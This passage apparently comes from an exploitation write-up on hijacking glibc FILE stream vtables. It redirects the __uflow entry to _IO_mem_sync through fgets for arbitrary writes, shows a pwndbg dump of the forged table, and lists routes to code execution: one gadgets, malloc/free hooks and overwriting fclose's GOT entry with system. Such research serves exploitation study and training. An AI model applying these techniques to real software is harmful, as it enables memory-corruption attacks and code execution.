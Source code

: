 ```c
    {
      if (save_for_backup (fp, fp->_IO_read_end))
	return EOF;
    }
  else if (_IO_have_backup (fp))
    _IO_free_backup_area (fp);
  return _IO_UFLOW (fp); // our vtable call is _IO_UFLOW => _IO_default_uflow => _IO_UNDERFLOW(fp)
}
libc_hidden_def (__uflow)
```
If we calculate carefully the distance between `__uflow` and `__sync` we can easily make our FILE stream to trigger `_IO_mem_sync` instead of `_IO_file_underflow` and perform our arbitrary writes!
```c
pwndbg> p *((struct _IO_jump_t*)0x7ffff7fb01f8)
$6 = {
  __dummy = 140737352307696,
  __dummy2 = 140737352308080,
  __finish = 0x7ffff7e42c50 <__GI__IO_str_seekoff>,
  __overflow = 0x7ffff7e41730 <_IO_default_seekpos>,
  __underflow = 0x7ffff7e41630 <_IO_default_setbuf>,
  __uflow = 0x7ffff7e3c1f0 <_IO_mem_sync>,
  __pbackfail = 0x7ffff7e417a0 <__GI__IO_default_doallocate>,
  __xsputn = 0x7ffff7e425e0 <_IO_default_read>,
  __xsgetn = 0x7ffff7e425f0 <_IO_default_write>,
  __seekoff = 0x7ffff7e425c0 <_IO_default_seek>,
  __seekpos = 0x7ffff7e41a20 <_IO_default_sync>,
  __setbuf = 0x7ffff7e425d0 <_IO_default_stat>,
  __sync = 0x7ffff7e42600 <_IO_default_showmanyc>,
  __doallocate = 0x7ffff7e42610 <_IO_default_imbue>,
  __read = 0x0,
  __write = 0x0,
  __seek = 0x0,
  __close = 0x0,
  __stat = 0x0,
  __showmanyc = 0x7ffff7e42b00 <_IO_str_finish>,
  __imbue = 0x7ffff7e3c8e0 <_IO_strn_overflow>
}
```
I have to note that depending on what glibc build we are targeting, `fgets` might be easier to exploit. For example if we target a glibc build with the `__libc_IO_vtables` section mapped in the `data` section (A known bug), we can easily overwrite the `__IO_mem_sync` vtable entry to point to a one gadget. Or we can abuse the `free/malloc` hooks to get code execution, or in a non PIE executable we can easily overwrite `fclose` got table to point to `system`. Generally we can abuse any function that is following `fgets` until `fclose` to get code execution. Which in most cases is enough.

I came up with a different plan though for this particular PoC and I admit it might not work for other IO function combos. Specifically the technique I tried will probably work only for a combo like `fgets` and `fclose` like in this case. 

Attacking our FILE stream vtable to point to `_IO_mem_sync` we will be able to perform two arbitrary writes but there is a pattern you have to understand with the `fgets` function particularly.
```c
size_t
_IO_getline_info (FILE *fp, char *buf, size_t n, int delim,
          int extract_delim, int *eof)
{
    ...
  while (n != 0)
  {
      ssize_t len = fp->_IO_read_end - fp->_IO_read_ptr;
      if (len <= 0)
        {
          int c = __uflow (fp); // we want to enter this function ;)
		   ...
```